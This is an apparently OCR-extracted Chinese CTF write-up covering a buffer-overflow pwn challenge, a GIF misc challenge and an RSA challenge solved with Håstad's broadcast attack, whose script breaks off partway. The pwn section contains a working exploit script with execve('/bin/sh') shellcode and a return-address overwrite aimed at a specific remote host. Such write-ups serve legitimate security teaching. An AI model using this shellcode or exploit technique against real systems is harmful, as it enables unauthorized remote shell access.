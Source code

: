 ￼￼￼￼###Checkin Exploit 200

调试发现,在溢出函数的返回点上,输入字符串的结尾 8 字节存储在了 rbp 中,因此在这里存储 上/bin/sh,再构造 shellcode 即可。

```
#!/usr/bin/env python2
from zio import *

# shellcode(rbp => '/bin//sh'): 
#a: 99              cltd
#b: 89 de           mov %ebx,%esi 
#d: 53              push %rbx
#e: 55              push %rbp
#f: 48 89 e7        mov %rsp,%rdi 
#12: 6a 3b          pushq $0x3b
#14: 58             pop %rax
#15: 0f 05          syscall    

call_rax = 0x40070d
shellcode = '9989de53554889e76a3b580f05'.decode('hex') + '\x90' + '/bin//sh'

host = '202.120.7.73' 
port = 44445
io = zio((host, port))

payload = shellcode + l64(call_rax)[:6] 
io.write(payload)

io.interact()

```

### ￼￼￼￼￼￼￼￼GIF Misc 50

GIF 第二帧为一二维码,内容即为 flag。

### 丫丫 Crypto 400

流量中包含了 7 组公钥和密文。考虑到 e=3,使用 Håstad's Broadcast Attack 方法,可使用中国剩余定理对原文求解。发现 7 组原文并不完全相同,从中枚举 3 个尝试解密最终获得 flag。

```
#!/usr/bin/env python2
from operator import mod, mul, sub, add 
import re, os, collections, sys
import fractions
import itertools

def eea(a,b):
    """Extended Euclidean Algorithm for GCD""" 
    v1 = [a,1,0]
    v2 = [b,0,1]
    while v2[0]<>0:
        p = v1[0]//v2[0] # floor division
        v2, v1 = map(sub,v1,[p*vi for vi in v2]), v2 
    return v1

def inverse(m,k): 
    """
    Return b such that b*m mod k = 1, or 0 if no solution 
    """
    v = eea(m,k)
    return (v[0]==1)*(v[1] % k)

def crt(ms, _as): 
    """
```